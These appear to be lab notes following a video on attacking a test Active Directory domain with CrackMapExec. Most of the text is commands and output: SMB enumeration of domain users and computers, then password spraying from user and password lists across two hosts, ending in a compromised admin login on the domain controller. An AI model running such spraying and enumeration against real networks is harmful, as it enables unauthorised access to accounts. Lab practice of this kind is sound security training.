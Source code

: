 ```
SMB         192.168.175.155 445    DC1              xyz.com\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain                                                                                                  
SMB         192.168.175.155 445    DC1              xyz.com\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain   
```

Try CME "smb" with valid user creds (via smb) to get computers:
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ crackmapexec smb 192.168.175.155 -u alice -p bubbles -p passwords.txt --computers
SMB         192.168.175.155 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:xyz.com) (signing:True) (SMBv1:False)
SMB         192.168.175.155 445    DC1              [+] xyz.com\alice:bubbles 
SMB         192.168.175.155 445    DC1              [+] Enumerated domain computer(s)
SMB         192.168.175.155 445    DC1              xyz.com\ws01$                         
SMB         192.168.175.155 445    DC1              xyz.com\DC1$
```

---
At this point (9:26 in the video), John tried for 30 minutes (of non recorded time) trying to get Bloodhound working with this data, but in the end he is unsuccessul.

He switches to just showing what can be done with the CrackMapExec and Impacket Tools.

---
Start with CME "smb": 
```
┌──(jim㉿kali)-[~/Desktop/active_directory/hacks/crackhound]
└─$ crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success -d xyz.com
SMB         192.168.175.132 445    WS01             [*] Windows 10.0 Build 22621 x64 (name:WS01) (domain:xyz.com) (signing:False) (SMBv1:False)
SMB         192.168.175.155 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:xyz.com) (signing:True) (SMBv1:False)
SMB         192.168.175.132 445    WS01             [+] xyz.com\alice:bubbles 
SMB         192.168.175.132 445    WS01             [-] xyz.com\alice:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\alice:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\bob:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [+] xyz.com\bob:ashley 
SMB         192.168.175.132 445    WS01             [-] xyz.com\bob:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\charlie:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [-] xyz.com\charlie:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.132 445    WS01             [+] xyz.com\charlie:P@ssw0rdABC 
SMB         192.168.175.155 445    DC1              [+] xyz.com\alice:bubbles 
SMB         192.168.175.155 445    DC1              [-] xyz.com\alice:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\alice:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\bob:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [+] xyz.com\bob:ashley 
SMB         192.168.175.155 445    DC1              [-] xyz.com\bob:P@ssw0rdABC STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\charlie:bubbles STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [-] xyz.com\charlie:ashley STATUS_LOGON_FAILURE 
SMB         192.168.175.155 445    DC1              [+] xyz.com\charlie:P@ssw0rdABC (Pwn3d!)
```

---